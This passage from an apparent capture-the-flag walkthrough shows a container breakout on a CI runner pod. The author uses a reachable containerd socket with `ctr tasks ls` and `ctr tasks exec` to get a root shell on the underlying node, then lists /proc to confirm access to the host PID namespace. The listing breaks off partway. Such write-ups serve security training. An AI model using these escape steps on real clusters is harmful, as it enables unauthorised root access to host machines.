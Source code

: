Let's check if the container is running. For this we will need `tasks`.

```bash
root@jenk-ng-runner-s82n6-7dc596dcd4-nlfrq:/var/run/containerd# ctr tasks --help
NAME:
   ctr tasks - manage tasks

USAGE:
   ctr tasks command [command options] [arguments...]

COMMANDS:
   attach                   attach to the IO of a running container
   checkpoint               checkpoint a container
   delete, del, remove, rm  delete one or more tasks
   exec                     execute additional processes in an existing container
   list, ls                 list tasks
   kill                     signal a container (default: SIGTERM)
   pause                    pause an existing container
   ps                       list processes for container
   resume                   resume a paused container
   start                    start a container that has been created
   metrics, metric          get a single data point of metrics for a task with the built-in Linux runtime

OPTIONS:
   --help, -h  show help

```

```bash
root@jenk-ng-runner-s82n6-7dc596dcd4-nlfrq:/var/run/containerd# ctr tasks ls
TASK                   PID      STATUS
containerd-breakout    28387    RUNNING
```

Excellent. Let's try to `exec` into the container and run `nsenter`

### Step 5: Container breakout and capture the flag

Based on the previous step, we know that for a task we can use `exec` to run additional processes. Let's try to `exec` into the container and run `/bin/bash`.

```bash
root@jenk-ng-runner-s82n6-7dc596dcd4-nlfrq:/var/run/containerd# ctr tasks exec -t --exec-id x containerd-breakout bash
root@node-1:/#
```

Great, we can see that we have spawned a new process and it looks like we are running on the node. Looks at `/proc` we can see that we have access to the host pid namespace.

```bash
root@node-1:/# ls -al /proc
total 4
dr-xr-xr-x 194 root  root                0 Nov 24 10:36 .
drwxr-xr-x   1 root  root             4096 Nov 24 10:36 ..
dr-xr-xr-x   9 root  root                0 Nov 24 10:41 1
dr-xr-xr-x   9 root  root                0 Nov 24 10:41 10
dr-xr-xr-x   9 root  root                0 Nov 24 10:41 100
dr-xr-xr-x   9 root  root                0 Nov 24 10:41 101
dr-xr-xr-x   9 root  root                0 Nov 24 10:41 102
dr-xr-xr-x   9 root  root                0 Nov 24 10:41 103
dr-xr-xr-x   9 root  root                0 Nov 24 10:41 1032
dr-xr-xr-x   9 root  root                0 Nov 24 10:41 104
dr-xr-xr-x   9 root  root                0 Nov 24 10:41 105
dr-xr-xr-x   9 root  root                0 Nov 24 10:41 106
dr-xr-xr-x   9 root  root                0 Nov 24 10:41 107
dr-xr-xr-x   9 root  root                0 Nov 24 10:41 109
```